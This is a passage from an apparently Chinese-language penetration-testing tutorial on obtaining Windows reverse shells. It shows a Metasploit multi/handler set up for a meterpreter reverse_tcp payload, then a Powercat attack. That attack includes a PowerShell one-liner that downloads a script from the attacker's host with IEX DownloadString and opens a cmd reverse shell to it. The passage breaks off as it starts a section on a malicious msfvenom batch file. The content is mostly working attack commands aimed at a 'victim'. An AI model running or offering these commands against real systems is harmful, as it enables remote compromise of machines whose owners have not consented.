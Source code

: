 

![img](https://i1.wp.com/3.bp.blogspot.com/-bDtjVsVqCfI/XERxFnef2HI/AAAAAAAAcIg/2lWy09_8hCUan9rgSBKoSPXf98Dq4uCwwCLcBGAs/s1600/20.png?w=687&ssl=1)

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```



您可以观察到，我们有受害者的计时器会话，如下所示：

![img](https://i2.wp.com/2.bp.blogspot.com/-kzB3IOsqd7E/XERxFqRFN-I/AAAAAAAAcIk/EGkn94fq-WsFUDnMc3K3981c0psvCnYowCLcBGAs/s1600/21.png?w=687&ssl=1)

## 五、Powershell.exe

您可以使用PowerShell.exe从其他工具（如Cmd.exe）的命令行启动PowerShell会话，或者在PowerShell命令行中使用它来启动新会话。从[这里](https://docs.microsoft.com/en-us/powershell/scripting/components/console/powershell.exe-command-line-help?view=powershell-6)阅读Microsoft Windows官方网站上的更多内容。

**通过Powershell启动Powercat攻击**

Powercat是一个PowerShell本机后门监听器和反向shell，也称为netcat的修改版本，因为它集成了对生成编码有效负载的支持，msfvenom会这样做，并且还有一个客户端到客户端中继，这是Powercat客户端的一个术语。允许连接两个独立的侦听器。

在本地机器上下载powershell，然后使用python http服务器下载powercat.ps1传输文件以获取目标的反向shell，如下所示，并**启动netcat listener**。

```
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80
```



![img](https://i0.wp.com/4.bp.blogspot.com/-w3C510CQUwc/XERxGDKDzWI/AAAAAAAAcIo/t7-aghYUo7EMgY6zJp71jfELNm85oIhXgCLcBGAs/s1600/24.png?w=687&ssl=1)

然后在远程端执行以下命令以获取natcat会话。

```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```



![img](https://i2.wp.com/4.bp.blogspot.com/-AuWS47ZUX7M/XERxGKIaPjI/AAAAAAAAcIw/t2eKFIIM9Go94YdhULnl25q0ESt8k5bjwCLcBGAs/s1600/25.png?w=687&ssl=1)

你可以观察到，我们有受害者的netcat会话，如下所示：

![img](https://i1.wp.com/4.bp.blogspot.com/-pUe8murtpZ8/XERxGFr0IdI/AAAAAAAAcIs/DE_vK8GP4kYQUGTVRsYeQL7f7UP54Z9vwCLcBGAs/s1600/26.png?w=687&ssl=1)

## **六、批处理文件**

同样，powershell允许客户端执行**bat文件**，因此让我们使用msfvenom生成恶意bat文件，如下所示，并启动netcat监听器。
